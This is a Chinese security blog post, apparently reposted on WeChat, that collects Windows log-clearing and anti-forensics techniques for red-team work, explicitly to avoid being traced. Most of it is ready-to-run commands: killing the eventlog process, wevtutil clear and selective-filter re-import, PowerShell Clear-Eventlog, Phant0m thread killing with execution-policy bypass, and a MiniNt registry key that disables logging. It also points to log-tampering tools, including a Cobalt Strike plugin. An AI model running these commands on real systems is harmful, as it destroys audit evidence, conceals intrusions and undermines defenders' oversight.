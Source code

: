 #  Windows日志清除绕过

星冥安全  [ 星冥安全 ](javascript:void\(0\);)

**星冥安全** ![]()

微信号 xingmingsec

功能介绍
星冥安全，专注于分享红蓝对抗、内网渗透、web安全、数据安全、云安全、应急响应、信息安全、网络安全攻防对抗知识。关注了解更多安全知识，感兴趣的可加入知识星球(星冥安全)！

____

___发表于_

收录于合集

#windows 3 个

#windows日志 1 个

#日志清除 1 个

在我们日常的攻防演练过程中，登录横向等行为大部分会记录在 Windows
日志中，这将会增加被溯源的风险，针对于windows日志痕迹清除主要总结了以下这些方法

# 0x01 关闭日志服务

    
    
    #找出日志进程的PID    
    Get-WmiObject -Class win32\_service -Filter "name = 'eventlog'"    
      
    #kill掉对应PID    
    taskkill /F /PID 1792     
    

![]()

重启可进行恢复

![]()

# 0x02 wevtutil

它是一个系统工具，可让您查找有关事件日志和发布者的详细信息。您还可以使用此命令安装和卸载事件清单、导出、存档和清除日志。

统计日志列表，查询所有日志信息，包含时间，数目  
`wevtutil.exe gli Application`

![]()

查看指定类别的日志内容  
`wevtutil qe /f:text Application`

![]()

删除该类日志所有内容  
`wevtutil cl Application`

![]()

![]()

但清除完会留下1012或104的系统日志

![]()

获取最近十条日志  
`wevtutil.exe qe Security /f:text /rd:true /c:10`

![]()

日志导出过滤

    
    
    wevtutil.exe epl Security 1.evtx    
    过滤分两种：    
        
    按日志号过滤：    
    wevtutil epl Security 1.evtx "/q: \*\[System \[(EventID!=1112)\]\]"    
        
    通过加or语句    
    wevtutil epl Security 1.evtx "/q:\*\[System \[(EventID>13032) or (EventRecordID<13030)\]\]"    
        
    按时间过滤：    
    wevtutil epl Security new.evtx "/q: \*\[System \[TimeCreated\[@SystemTime >'2021-09-08T17:21:00' or @SystemTime <'2021-09-08T09:20:00'\]\]\]"    
    这里删除SystemTime为2021-08-20T03:20:00至2018-08-29T03:21:00之间的日志，结果保存为new.evtx，然后可以把删除处理后的日志进行重新导入    
        
    组合过滤：    
    wevtutil epl Security asd.evtx "/q:(Event/System/TimeCreated\[@SystemTime >'2021-09-07T03:21:00' or @SystemTime <'2021-09-04T03:20:00'\]) and Event/System/EventID=4624"    
        
    注意：首先需要确定系统时间，如图时差为8小时，对应清除日志时间要向前移8小时    
    wevtutil.exe qe Security /f:xml /rd:true /c:1  
    

![]()  
编译：通过GitHub的项目重新进行导入

https://github.com/3gstudent/Homework-of-C-
Language/blob/master/DeleteRecordbyTerminateProcess(ReplaceFile).cpp

编译前添加

`#include <stdio.h>`  
`#include <tchar.h>`

    
    
    该项目原理：  
    1、解除本身日志文件的占用    
    2、结束日志进程    
    3、释放日志文件句柄    
    4、替换日志文件    
    5、重启日志服务    
    

![]()

运行完成后把删除处理后的日志重新导入安全日志，但会留下7034的系统日志

![]()

# 0x03 EventLogMaster

这是一款用于日志清除的Cobalt Strike插件，可指定地址、ip等

https://github.com/QAX-A-Team/EventLogMaster

![]()

如图所示源地址172.20.10.3记录在remoteconnectionmanager日志中，选择相应的日志类型并填写好源地址进行清除

![]()

![]()

成功清除该IP相关的日志

![]()

# 0x04 Powershell

执行以下两条命令

    
    
    Clear-Eventlog -LogName Security  
    Clear-Eventlog -LogName System  
    

![]()

清除完会分别留下104和1102的清除日志

![]()

![]()

# 0x05 Phantom

在Windows操作系统上，svchost.exe管理服务，而服务实际上是在svchost.exe下作为线程运行的。Phant0m以事件日志服务为目标，找到负责事件日志服务的进程，它会检测并终止负责事件日志服务的线程。因此，虽然事件日志服务似乎在系统中运行，但是Phant0m终止了线程而没有终止进程，所以系统不收集日志。

项目地址：https://github.com/hlldz/Phant0m

可以通过编译后的exe程序或者项目的cs插件运行

![]()

或通过Powershell分别执行以下三条命令

    
    
    1、powershell -ep bypass  
      
    2、Import-Module .\\Invoke-Phant0m.ps1  
      
    3、Invoke-Phant0m  
    

![]()

# 0x06 MiniNT注册表

可以使用注册表，创建一个新的注册表项，然后重新启动机器以加载配置单元。

`reg add “HKEY\_LOCAL\_MACHINE\\SYSTEM\\CurrentControlSet\\Control\\MiniNt”`

此键禁用事件查看器，从而限制它生成日志。

![]()

![]()

删除重启后可正常查看日志

![]()

  *   *   * 

    
    
    转载：https://forum.butian.net/share/1717作者：hyyrent欢迎大家去关注作者

  

 **欢迎师傅加入安全交流群(qq群：611901335)，或者后台回复加群**

 **如果想和我一起讨论，欢迎加入我的知识星球！！！**

![]()

  

 **扫描下图加入freebuf知识大陆**

![]()

  

 **师傅们点赞、转发、在看就是最大的支持**

 **  
**

 **后台回复知识星球或者知识大陆也可获取加入链接(两个加其一即可)**

  

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

